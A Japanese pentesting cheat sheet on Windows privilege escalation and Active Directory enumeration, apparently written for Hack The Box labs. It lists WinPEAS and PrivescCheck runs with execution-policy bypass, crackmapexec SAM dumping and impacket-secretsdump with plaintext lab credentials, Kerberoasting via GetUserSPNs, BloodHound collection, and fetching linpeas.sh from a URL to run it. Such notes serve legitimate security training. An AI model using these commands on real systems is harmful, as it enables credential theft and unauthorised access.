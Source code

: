 ## 目次
1. [基本チェック](#基本チェック)
2. [自動化スクリプト](#自動化スクリプト)
    - [WinPeas](#winpeas)
    - [Jaws-enum.ps1](#jaws-enumps1)
    - [PowerUp.ps1](#powerupps1)
    - [PrivescCheck.ps1](#privesccheckps1)
3. [crackmapexec](#crackmapexec)
4. [Bloodhound](#bloodhound)
5. [Impacket](#impacket)
    - [secretdump](#secretdump)
    - [GetUserSPNs](#getuserspns)
6. [WinPEAS](#winpeas)
    - [AutoLogin](#autologin)
    - [パラメータ例](#パラメータ例)
7. [Sherrock.ps1](#sherrockps1)

---

## 基本チェック

```bash
whoami
whoami /priv
net user username
net user /group
net user /domain
host
hostname
systeminfo
```

> **注:** `hostfix`はWindows Updateの履歴を指します。

---

## 自動化スクリプト

## WinPeas
- [WinPeasのダウンロード](https://github.com/peass-ng/PEASS-ng/releases/tag/20230618-1fa055b6)
- コマンド: `winpeas.bat`

## Jaws-enum.ps1

## PowerUp.ps1

## PrivescCheck.ps1
- [PrivescCheckのダウンロード](https://github.com/itm4n/PrivescCheck)

**基本チェックのみ:**
```bash
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```

**拡張チェック + すべてのレポート:**
```bash
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML
```

**オールインワンコマンド:**
```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"
```

---

## crackmapexec

```bash
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```

---

## Bloodhound

### 初期侵入後の調査
```bash
sudo neo4j console
```
- メニューからBloodhoundを起動
  - ※コマンドだとなぜかエラーになる
- 被害者マシンで`SharpHound.exe`または`SharpHound.ps1`を実行
- ZIPファイルが作成されるのでダウンロード
- 解凍せずにBloodhoundにアップロード
- すでに権限を奪えているユーザーは「Mark User as High Value」にチェック

### リモートの場合
```bash
bloodhound-python
```
- Dockerでも可能

---

### Impacket

#### secretdump
```bash
impacket-secretsdump htb/svc-alfresco:s3rvice@10.10.10.161
```

#### GetUserSPNs
```bash
impacket-GetUserSPNs -request -dc-ip active.htb active.htb/svc_tgs
```
- ※ユーザパスワードが必要

---

## WinPEAS

## AutoLogin

## パラメータ例
ヘルプを表示
```bash
winpeas.exe -h
```
すべてのチェックを実行（ただし、LOLBASとlinpeas.shの追加の遅いチェックは除く） (CTFs用)
```bash
winpeas.exe
```
systeminfoとuserinfoのチェックのみ実行
```bash
winpeas.exe systeminfo userinfo
```
出力をカラーにしない
```bash
winpeas.exe notcolor
```
ドメイン情報も列挙
```bash
winpeas.exe domain
```
各テスト間でユーザー入力を待機
```bash
winpeas.exe wait
```
追加のデバッグ情報を表示
```bash
winpeas.exe debug
```
出力を標準出力ではなくout.txtにログ
```bash
winpeas.exe log
```
# 追加のlinpeasチェックを実行（デフォルトのWSLディストリビューションでlinpeas.shを実行）カスタムURLでlinpeas.shを実行（指定がない場合、デフォルトURLは: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh）
```bash
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh
```
追加のLOLBAS検索チェックも実行
```bash
winpeas.exe -lolbas
```

---

## Sherrock.ps1

- PowerShell周りの脆弱性列挙ツール

